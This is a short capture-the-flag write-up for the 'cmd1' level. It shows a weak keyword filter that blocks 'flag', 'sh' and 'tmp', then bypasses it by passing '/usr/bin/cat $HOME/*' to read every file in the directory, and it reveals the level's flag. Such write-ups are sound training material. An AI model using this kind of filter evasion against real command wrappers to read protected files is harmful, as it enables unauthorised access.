 ## cmd1
This level is about cleverly using environment variables in our favour.

## Solution
All we have to do is execute cmd1, passing as an argument the command we want to execute. The problem is that it wont give us an easy time, there is a filter, we can't do whatever we want...
```c
int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "flag")!=0;
        r += strstr(cmd, "sh")!=0;
        r += strstr(cmd, "tmp")!=0;
        return r;
}
```
This filter is very weak though, it does not handle argument expansions, so we can use that. First, we need to know where is cat and we can do it pretty easily with
```bash
whereis cat
```
Now, since we can't cat the flag directly, we'll have to use a workaround and instead, cat everything
```bash
cat *
```
This would work, if we were in our home... But the cmd1 program changes our PATH env to /thankyouverymuch. This can be easily remedied by simply giving it the where we want to cat everything
```bash
cat $HOME/*
```
Is enough, so, passing it as an argument, we have
```bash
./cmd1 "/usr/bin/cat $HOME/*"
```
Success!
The flag of this level is the key to the next one, so we should keep it close.
<details>
  <summary>Show flag</summary>

	PATH\_environment?_Now_I_really_g3t_it,_mommy!

</details>
